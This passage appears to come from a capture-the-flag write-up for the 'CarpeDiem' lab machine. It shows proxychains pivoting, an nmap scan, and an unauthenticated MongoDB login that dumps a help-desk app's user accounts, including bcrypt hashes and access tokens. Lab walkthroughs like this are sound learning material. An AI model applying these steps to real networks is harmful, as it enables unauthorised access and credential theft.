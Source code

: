 **172.17.0.4:**
```bash
➜  carpediem proxychains nmap -sT --open 172.17.0.4
N/A

➜  carpediem proxychains nmap -sT --top-port=5000 --open 172.17.0.4
PORT      STATE SERVICE
27017/tcp open  mongod
```

```bash
➜  carpediem proxychains mongo 172.17.0.4 
> show databases;
admin    0.000GB
config   0.000GB
local    0.000GB
trudesk  0.001GB

> use trudesk;
switched to db trudesk

> show tables;
accounts
counters
departments
groups
messages
notifications
priorities
role_order
roles
sessions
settings
tags
teams
templates
tickets
tickettypes

> db.accounts.find()
{ "_id" : ObjectId("623c8b20855cc5001a8ba13c"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "admin", "password" : "$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS", "fullname" : "Robert Frost", "email" : "rfrost@carpediem.htb", "role" : ObjectId("623c8b20855cc5001a8ba138"), "title" : "Sr. Network Engineer", "accessToken" : "22e56ec0b94db029b07365d520213ef6f5d3d2d9", "__v" : 0, "lastOnline" : ISODate("2022-04-07T20:30:32.198Z") }
{ "_id" : ObjectId("6243c0be1e0d4d001b0740d4"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "jhammond", "email" : "jhammond@carpediem.htb", "password" : "$2b$10$n4yEOTLGA0SuQ.o0CbFbsex3pu2wYr924cKDaZgLKFH81Wbq7d9Pq", "fullname" : "Jeremy Hammond", "title" : "Sr. Systems Engineer", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "a0833d9a06187dfd00d553bd235dfe83e957fd98", "__v" : 0, "lastOnline" : ISODate("2022-04-01T23:36:55.940Z") }
{ "_id" : ObjectId("6243c28f1e0d4d001b0740d6"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "jpardella", "email" : "jpardella@carpediem.htb", "password" : "$2b$10$nNoQGPes116eTUUl/3C8keEwZAeCfHCmX1t.yA1X3944WB2F.z2GK", "fullname" : "Joey Pardella", "title" : "Desktop Support", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "7c0335559073138d82b64ed7b6c3efae427ece85", "__v" : 0, "lastOnline" : ISODate("2022-04-07T20:33:20.918Z") }
{ "_id" : ObjectId("6243c3471e0d4d001b0740d7"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "acooke", "email" : "acooke@carpediem.htb", "password" : "$2b$10$qZ64GjhVYetulM.dqt73zOV8IjlKYKtM/NjKPS1PB0rUcBMkKq0s.", "fullname" : "Adeanna Cooke", "title" : "Director - Human Resources", "role" : ObjectId("623c8b20855cc5001a8ba139"), "accessToken" : "9c7ace307a78322f1c09d62aae3815528c3b7547", "__v" : 0, "lastOnline" : ISODate("2022-03-30T14:21:15.212Z") }
```